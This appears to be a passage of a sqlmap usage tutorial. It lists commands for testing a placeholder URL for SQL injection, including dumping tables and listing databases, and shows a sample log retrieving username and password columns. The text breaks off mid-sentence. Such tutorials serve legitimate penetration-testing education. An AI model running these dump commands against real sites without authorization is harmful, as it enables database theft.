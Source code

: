1. **Basic SQL Injection Test**:
   To test a URL for SQL injection vulnerabilities:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1"
   ```

2. **Using POST Data**:
   If the target requires POST data, use the `--data` option:

   ```bash
   sqlmap -u "http://example.com/login.php" --data="username=admin&password=pass"
   ```

3. **Specify a Cookie**:
   If the application uses cookies for session management:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" --cookie="PHPSESSID=abc123"
   ```

4. **Level and Risk Parameters**:
   To increase the testing depth and risk:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" --level=3 --risk=3
   ```

5. **Dump Database Tables**:
   To extract data from the database:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" --dump
   ```

6. **Get Database Name**:
   To retrieve the name of the database:

   ```bash
   sqlmap -u "http://example.com/page.php?id=1" --dbs
   ```

### Expected Output

When you run SQLMap, the output will typically provide detailed information about the SQL injection vulnerability, such as:

```
[09:29:34] [INFO] testing connection to the target URL
[09:29:35] [INFO] testing if the target URL is stable
[09:29:35] [INFO] confirming the existence of SQL injection on the parameter 'id'
[09:29:36] [INFO] GET parameter 'id' is vulnerable
[09:29:37] [INFO] retrieved: database: 'example_db'
[09:29:38] [INFO] retrieved: table: 'users'
[09:29:39] [INFO] retrieved: column: 'username'
[09:29:40] [INFO] retrieved: column: 'password'
```

This output indicates that:
